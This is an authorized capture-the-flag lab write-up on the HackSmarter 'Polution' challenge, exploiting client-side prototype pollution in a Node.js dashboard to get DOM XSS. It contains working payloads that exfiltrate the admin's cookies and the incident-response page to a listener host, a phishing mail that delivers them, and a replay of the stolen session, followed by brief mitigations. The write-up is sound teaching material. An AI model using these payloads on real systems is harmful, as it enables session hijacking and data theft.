






Authorized lab write-up. Lab author: Tyler Ramsbey (typo intentional). Solved 2026-08-07. Proxy evidence via gori.
| Challenge | Polution |
| Platform | HackSmarter (DEFCON free access) |
| Category | Client-side prototype pollution · DOM XSS · session theft |
| Target (lab) | 10.0.31.37:3000 · Node.js Express |
| Start creds | pentester:HackSmarter123 |
| Outcome | Administrator session + incident-response flag |
| Proxy | gori 0.2.0 · project polution · 127.0.0.1:8070 |
__proto__createContextualFragment)
The dashboard merges the URL hash into a plain object without blocking dangerous keys.
Setting #__proto__.renderCallback=… pollutes Object.prototype, so every object
appears to have renderCallback. The app then parses that string as HTML → XSS.
Mail the polluted link to admin; steal cookies; open the admin-only page.
nmap -sV -sC -p- --min-rate 1000 -T4 10.0.31.37
# 22/tcp OpenSSH
# 3000/tcp Node.js Express — Hacksmarter | Login
http://10.0.31.37:3000/.gori flow #2 — login (snippet)
POST /login HTTP/1.1
Host: 10.0.31.37:3000
Content-Type: application/x-www-form-urlencoded
username=pentester&password=HackSmarter123
HTTP/1.1 302 Found
Set-Cookie: user=pentester; Path=/
Location: /dashboardFull export: requests/gori-flow-2.txt

pentester (Audit Logs + Webmail + Incident Response link).GET /incident-response → 403 for low-privilege user.
Traffic was replayed through gori run capture --project polution --port 8070.
History list (newest first):
#7 GET /incident-response → 200 (admin cookies)
#6 GET /incident-response → 403 (pentester)
#5 POST /api/mail/send → 200
#4 GET /api/mail → 200
#3 GET /dashboard → 200
#2 POST /login → 302
#1 GET / → 200
polution: history list + selected request/response dumps.gori flow #5 — webmail send
POST /api/mail/send HTTP/1.1
Cookie: user=pentester
Content-Type: application/json
{"to":"admin@hacksmarter.local","subject":"gori demo","body":"proxy capture test"}
HTTP/1.1 200 OK
{"status":"Sent"}gori-flow-5.txt · gori-history.txt

admin@hacksmarter.local).Inline dashboard JS (abridged):
function syncState(params, target) {
params.split('&').forEach(pair => {
const [key, value] = /* split on first = */;
const path = key.split('.');
let current = target;
for (let i = 0; i < path.length; i++) {
const part = decodeURIComponent(path[i]);
if (i === path.length - 1) current[part] = decodeURIComponent(value);
else { current[part] = current[part] || {}; current = current[part]; }
}
});
}
function executeSearch() {
let options = { prefix: "Searching: " };
if (window.location.hash) syncState(window.location.hash.substring(1), options);
if (options.renderCallback) {
const frag = document.createRange().createContextualFragment(options.renderCallback);
results.appendChild(frag); // HTML sink
}
}current['__proto__'] walks onto
Object.prototype. Later, options.renderCallback resolves via the prototype
chain even though options never set own property renderCallback.

renderCallback HTML run in the results pane.Listener on VPN IP 10.200.78.90:8888, then mail the admin:
# Cookie stealer (via img onerror → GET)
http://10.0.31.37:3000/dashboard#__proto__.renderCallback=<img src=x onerror="this.src='http://10.200.78.90:8888/cookie?c='+encodeURIComponent(document.cookie)">
# Direct IR exfil (same-origin fetch as admin browser)
#__proto__.renderCallback=<img src=x onerror="fetch('/incident-response').then(r=>r.text()).then(d=>fetch('http://10.200.78.90:8888/IR_LEAK',{method:'POST',mode:'no-cors',body:d}))">Exploit mail body (saved request)
POST /api/mail/send HTTP/1.1
Content-Type: application/json
Cookie: user=pentester
{"to":"admin@hacksmarter.local","subject":"Audit review needed",
"body":"Please review … dashboard#__proto__.renderCallback=<img …>"}02-mail-send-cookie-steal.http · 03-mail-send-ir-leak.http
Admin bot (HeadlessChrome) called back within seconds:
GET /cookie?c=session%3DHS_ADMIN_7721_SECURE_AUTH_TOKEN%3B%20user%3Dadmin
POST /IR_LEAK
body: <h1>Flag: HACKSMARTER{prowling_the_prototype}</h1>curl -b 'user=admin; session=HS_ADMIN_7721_SECURE_AUTH_TOKEN' \
http://10.0.31.37:3000/incident-responsegori flow #7 — IR as admin
GET /incident-response HTTP/1.1
Cookie: user=admin; session=HS_ADMIN_7721_SECURE_AUTH_TOKEN
HTTP/1.1 200 OK
<h1>Flag: HACKSMARTER{prowling_the_prototype}</h1>gori-flow-7.txt · contrast 403: gori-flow-6.txt
admin after cookie import.
__proto__, constructor, prototype in any recursive merge.createContextualFragment / innerHTML.HttpOnly + Secure + SameSite session cookies; CSP without unsafe-inline.